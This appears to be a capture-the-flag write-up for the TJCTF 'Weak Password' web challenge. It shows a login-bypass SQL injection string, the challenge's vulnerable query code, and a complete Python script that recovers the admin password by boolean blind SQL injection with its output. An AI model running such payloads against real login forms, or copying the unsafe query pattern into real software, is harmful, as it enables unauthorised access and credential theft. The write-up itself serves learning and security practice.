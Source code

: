 ## Weak Password
### Category : Web


TLDR;

Boolean Blind SQLi

We are greeted with a Login page. 

![](Weak_password_login.jpeg)

Tried for a sqli, with a basic injection `' or 1=1-- ` as the username and random password

And we're in!

![](Weak_password_login_2.jpeg)

But Not Particularly useful login.


Challenge Description states
```
It seems your login bypass skills are now famous! One of my friends has given you a challenge: figure out his password on this site. He's told me that his username is admin, and that his password is made of up only lowercase letters and numbers. (Wrap the password with tjctf{...})

```

That means, we need to extract the data from the DB. So it has to be, `boolean blind sqli`.

From the source of the login page we get 
```
<!-- The following code might be helpful to look at: -->

<!--
def get_user(username, password):
    database = connect_database()
    cursor = database.cursor()
    try:
        cursor.execute('SELECT username, password FROM `userandpassword` WHERE username=\'%s\' AND password=\'%s\'' % (username, password))
    except:
        return render_template("failure.html")
    row = cursor.fetchone()
    database.commit()
    database.close()
    if row is None: return None
    return (row[0],row[1])
-->
```

So we know the DB Name and the column names. 


So, I wrote a simple script to automate the Extraction

```
#! /usr/bin/python3
import requests
import string

def inject(cmd):
    url = "https://weak_password.tjctf.org/login"
    data = {"username":"admin' AND {} -- ".format(cmd),"password":"leetcode"}
    #print(data)
    r = requests.post(url,data=data)
    #print(r.text)
    valid = "Congratulations"
    if(valid in r.text):
        return True
    else:
        return False


col_1 = "username"
col_2 = "password"
db = "userandpassword"

user = "admin"

#cmd = "Select unicode(substr(password,1,1)) from {} limit 1 offset 0 > 0 ".format(db)
flag=""
for i in range(1,10):
    l = 97 
    r = 123
    # l = 0
    # r = 100
    prev_mid = -1
    mid = int((l+r)/2)
    while(prev_mid!=mid):
        cmd = "(Select unicode(substr(password,{},{})) from userandpassword limit 1 offset 0) > {}".format(i,i,mid)
        #cmd = "(Select length(password) from userandpassword limit 1 offset 1) > {}".format(mid)
        val = inject(cmd)
        if(val):
            l = mid
        else:
            r=mid
        prev_mid=mid
        mid = int((l+r)/2)

    flag+=chr(mid+1)
    print(flag)
```

Output
```
b
bl
bli
blin
blind
blinds
blindsq
blindsql
blindsqli
```

PS : I did a Binary Search over the available character set to make the search process faster. 